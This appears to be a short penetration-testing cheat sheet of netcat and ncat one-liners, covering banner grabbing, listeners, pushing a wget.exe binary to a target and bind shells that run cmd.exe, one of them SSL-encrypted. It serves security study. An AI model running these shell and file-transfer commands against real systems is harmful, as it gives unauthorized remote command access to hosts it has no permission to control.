 **Netcat**  
nc -nv TargetIP port  #connect to port,client/banner grab  
nc -nlvp 4444  #start netcat server  

nc -nv TargetIP 4444 </usr/share/windows-binaries/wget.exe #send file to listening netcat server  
nc -nlvp 4444 > incoming.exe #receive file from client pipe into exe  

nc -lvp 4444 -e cmd.exe #bind shell server  
nc -vn TargetIP 4444 #bind shell client  

**Ncat**  
ncat -lvp 4444 -e cmd.exe --allow ClientIP --ssl #ncat server bind shell only to clientip with ssl encryption  
ncat -v ServerIP 4444 --ssl #client connect bind 
